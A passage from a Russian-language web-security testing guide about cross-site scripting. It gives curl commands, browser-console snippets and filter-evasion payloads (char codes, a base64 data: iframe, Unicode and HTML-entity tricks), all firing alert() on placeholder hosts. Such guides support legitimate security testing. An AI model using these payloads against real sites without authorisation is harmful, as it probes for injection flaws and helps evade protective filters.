 **Тест через POST запрос:**
```bash
curl -X POST https://your-domain.com/atomic/pages/Trademark \
  -H "Content-Type: application/json" \
  -d '{"text": "<img src=x onerror=alert(\"REACT_XSS\")>"}'
```

---

## 🛠️ Инструменты для тестирования

### Burp Suite:
1. **Intruder** - для автоматического перебора payload'ов
2. **Repeater** - для ручного тестирования запросов
3. **DOM Invader** - для поиска DOM XSS

### Browser Console:
```javascript
// Проверка DOM pollution
Object.defineProperty(window.location, 'origin', {
    value: 'javascript:alert("AKUMA")//'
});

// Проверка localStorage XSS
localStorage.setItem('test', '<script>alert("LOCALSTORAGE_XSS")</script>');
```

### curl команды:
```bash
# Reflected XSS через параметры
curl "https://target.com/status?q=<script>alert('REFLECTED')</script>"

# XSS через хедеры
curl -H "User-Agent: <script>alert('UA_XSS')</script>" https://target.com/

# XSS в JSON
curl -X POST https://target.com/api \
  -H "Content-Type: application/json" \
  -d '{"data": "<script>alert(\"JSON_XSS\")</script>"}'
```

---

## 🎪 Advanced техники обхода фильтров

### Обфускация:
```javascript
// Char codes
<img src=x onerror=eval(String.fromCharCode(97,108,101,114,116,40,39,72,65,67,75,69,68,39,41))>

// Base64
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgnSEFDS0VEJyk8L3NjcmlwdD4=">

// Unicode
<script>alert('HACK\u0045D')</script>

// HTML entities
<img src=x onerror=alert(&#39;HACKED&#39;)>
```

